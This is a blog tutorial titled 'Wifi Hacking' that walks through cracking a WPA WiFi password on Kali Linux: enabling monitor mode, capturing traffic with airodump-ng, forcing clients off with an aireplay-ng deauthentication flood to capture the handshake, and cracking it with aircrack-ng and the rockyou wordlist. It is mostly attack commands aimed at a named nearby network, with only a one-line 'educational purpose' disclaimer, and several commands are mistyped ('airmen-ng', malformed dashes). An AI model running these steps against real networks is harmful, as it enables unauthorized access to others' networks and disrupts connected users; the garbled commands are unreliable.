 ```yaml
---
title: Wifi Hacking
author: Radeel Ahmad
pubDatetime: 2024-05-16T12:22:23Z
slug:  Wifi hacking 101
featured: false
draft: false
tags:
  - hacking
  - wireless-hacking
  - wifi-hacking


description:
  step-by-step method to hack WIFI using a network adapter.
---
```


<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/d6afb6c5702631ed7e304d2ac40fb4f2.gif" alt="Description of GIF" width="500">

## Requirements
- Kali Linux Machine (attacking machine)
- Network Adapter

## Let’s Start…

The network adapter I am using for this attack demo is **Alpha’s AWUS036H**.

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-1.jpg" alt="Network Adapter">

After connecting the network adapter, open the Kali Linux machine and write the followingcommand on the terminal.

```bash
iwconfig
```

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-2.png" alt="Network Adapter 2">

When we connect the adapter, you’ll see the wlan0 interface on your terminal screens. To change the mode to `Monitor Mode`, use the following command.

```bash
sudo airmen-ng start wlan0 
```

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-3.png" alt="Network Adapter">

Again, use the command mentioned below to verify the monitor mode.

```bash
iwconfig
```

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-4.png" alt="Network Adapter">

As you can see, the mode has been changed. Now, use the airodump-ng tool to capture wireless network traffic on the specified interface.

```bash
sudo airodump-ng wlan0
```

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-5.png" alt="Network Adapter">

It will display information about nearby **WiFi Networks**. Our intended interface is `Alvish Bhaii`. Then, copy the `BSSID`.

The Following command tells us how many devices are connected tothis Network interface.

```bash
sudo airodump-ng wlan0 -d <mac-address>
```

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-6.png" alt="Network Adapter">

Remember, WiFi Networks always occupy a limited radius of the area. So, you should be within that radius to discover the WiFi network. The next step is to capture the handshake, using the **death attack**.

```bash
sudo airodump-ng -w <filename> –c 1 --bssid <target-mac> wlan0
```

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-7.png" alt="Network Adapter">

In this attack, we save the handshake in a `.pcap` file. The next step is the death attack: We open another terminal and type the following command.

```bash
sudo aireplay-ng -–deauth 0 -a <target-mac> wlan0
```

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-8.png" alt="Network Adapter">

If a disconnected client tries to connect with the wifi, they generate a four-way handshake.

> **What is a four-way handshake?**
A four-way handshake is a message exchange between an access point and the client device.

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-9.png" alt="Network Adapter">

Now, you see that it captures the handshake. Type in the ls command to see the file.

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-10.png" alt="Network Adapter">

In our attack method, we are going to crack the password in our test-01.cap in encrypted form. The cracking is totally offline; we don’t need an internet connection or Wi-Fi adapter for it. We’ll use their crack toolto crack the password.

```bash
aircrack-ng <filename.cap> -w /usr/share/wordlists/rockyou.txt
```

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-11.png" alt="Network Adapter">

**You see that the key is found and cracked Successfully.**

Thank You for reading this blog. I hope that you have found this information provided to be valuable and helpful. Use it for educational purpose only…. 🙂
